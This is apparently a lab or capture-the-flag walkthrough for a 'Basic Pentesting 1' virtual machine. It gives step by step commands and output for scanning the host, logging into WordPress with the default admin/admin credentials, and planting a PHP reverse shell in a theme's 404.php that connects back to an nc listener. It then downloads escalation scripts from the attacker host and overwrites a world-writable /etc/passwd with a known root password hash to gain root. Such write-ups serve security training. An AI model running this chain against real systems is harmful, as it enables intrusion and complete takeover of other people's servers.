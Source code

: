 # Basic Pentesting 1

### Find own IP/Network

    ifconfig

        >eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Scan Network


    nmap 192.168.30.0/24
    
>Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
### Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
### Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

### The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


### Set up listener

    nc -lvp 7777
    
### Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
>root@kali:~# nc -lvp 7777
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
### Privilege Escalation

Upload an escalation checker script. LinEnum.sh used here

        cd <folder with script>
        python -m SimpleHTTPServer 1234
        
On reverse shell, navigate to a world writable folder and download

        cd /tmp
        wget 192.168.30.131:1234/LinEnum.sh
        
>$ wget 192.168.30.131:1234/unix-privesc-check
--2018-12-11 06:22:18--  http://192.168.30.131:1234/unix-privesc-check
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49721 (49K) [application/octet-stream]
Saving to: 'unix-privesc-check'

     0K .......... .......... .......... .......... ........  100% 15.2M=0.003s

2018-12-11 06:22:18 (15.2 MB/s) - 'unix-privesc-check' saved [49721/49721]



### Run Script

        chmod +x unix-*
        (because i'm lazy af)
        ./unix-* standard | grep WARNING
        
Something interesting is found

>$ ./unix-* standard | grep WARNING                               
passwd: Permission denied.
Search the output below for the word 'WARNING'.  If you don't see it then
[UPC004] WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd
[UPC004] WARNING: /etc/passwd can be written to World write is set for /etc/passwd

Transfer file through apache folder since port 80 is already open

        cp /etc/passwd /var/www/html/
        
Go into an easily accessible folder on attacker machine(i used desktop) and download the passwd file

        cd ~/Desktop
        wget vtcsec/passwd

Edit the password

In any text editor of your choice, replace the 'x' inside the passwd file with the following for 'root' and 'marlinspike':

        $6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0
        (This basically means 'test')
        
 Close the previous python SimpleHTTPServer if it's still running. Run it again from the folder where the modifled passwd file is.
 
        cd ~/Desktop
        python -m SimpleHTTPServer 1234
        
 On the reverse shell, replace the /etc/passwd file with the modified one. use wget -O to output/overwrite
 
        wget 192.168.30.131:1234/passwd -O /etc/passwd
        
>ERROR: could not open HSTS store. HSTS will be disabled.
--2018-12-11 08:23:21--  http://192.168.30.131:1234/passwd
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2558 (2.5K) [application/octet-stream]
Saving to: '/etc/passwd'

   0K ..                                                    100%  195M=0s

utime(/etc/passwd): Operation not permitted
2018-12-11 08:23:21 (195 MB/s) - '/etc/passwd' saved [2558/2558]

    
    
    
        $ su root
        su: must be run from a terminal

Annoying.. Open bash then

        $ python -c 'import pty;pty.spawn("/bin/bash")'
        www-data@vtcsec:/$ 

Switch user again

        www-data@vtcsec:/$ su root
        su root
        Password: test
        root@vtcsec:/var/www/html# whoami
        root

